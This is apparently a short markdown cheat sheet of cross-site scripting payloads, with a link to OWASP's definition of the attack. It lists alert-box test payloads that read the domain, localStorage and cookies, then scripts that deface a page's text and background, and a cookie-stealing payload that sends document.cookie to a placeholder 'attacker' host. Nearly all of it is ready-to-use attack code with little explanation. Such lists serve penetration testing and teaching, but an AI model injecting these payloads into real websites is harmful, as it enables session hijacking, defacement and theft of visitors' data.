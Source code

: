 # XSS payloads

[Cross-Site Scripting](https://owasp.org/www-community/attacks/xss/) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.

## Basic XSS test payloads
```html
<script>alert(1)</script>

<script>alert(document.domain)</script>

<script>alert(windows.origin)</script>

<script>alert(window.localStorage)</script>

<script>alert(window.document.cookie)</script>

<script>alert(String.fromCharCode(0x58,0x53,0x53))</script>
```

## Deface HTML
```html
<!--change text -->
<script>document.querySelector('#id').textContent = 'new'</script>

<!--change background color-->
<script>document.body.style.backgroundColor = "red"</script>
```
## Steal Cookie
```html
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```